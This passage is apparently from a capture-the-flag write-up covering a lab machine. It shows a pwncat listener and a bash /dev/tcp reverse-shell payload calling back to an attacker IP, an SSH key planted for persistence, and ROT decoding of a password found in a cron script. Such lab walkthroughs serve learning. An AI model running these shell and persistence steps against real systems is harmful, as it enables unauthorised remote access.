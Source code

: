 Listener - 
```sh
pwncat -l 443 --self-inject /bin/bash:10.13.18.86:443
```

Payload - 

```bash
/bin/bash -c 'sh -i >& /dev/tcp/10.13.18.86/443 0>&1'
```

Shell as ```paradox```

![[paradox.png]]

Fixing up the terminal to have a full TTY - 

![[fixing_term.png]]
___

## User.txt
In paradox's home directory is the user.txt flag.

![[user_flag.png]]

___

## Persistence
As always setting up persistence is a good idea. Here I will create an SSH keypair to login via SSH.

![[ssh.png]]

___

# Find out what Szymex is working on

After logging in as Paradox I receive an odd message from szymex.

SSH shell and interesting szymex message -

![[message.png]]

There was a note in szymex's home directory talking about a Dr. Pepper script.

![[note.png]]

## SniffingCat.py

Also in Szymex's home directory is a python script which is running as a cronjob and has a variable named ```enc_pw``` which equals ```pureelpbxr``` but it says it's encoded. I tried Magic from cyber chef to na avail. I then utilized a really bad script I wrote when I was learning bash that takes an encoded word and tries Rot 1 -25 decoding. I noticed one word was not gibberiesh ```redacted```.
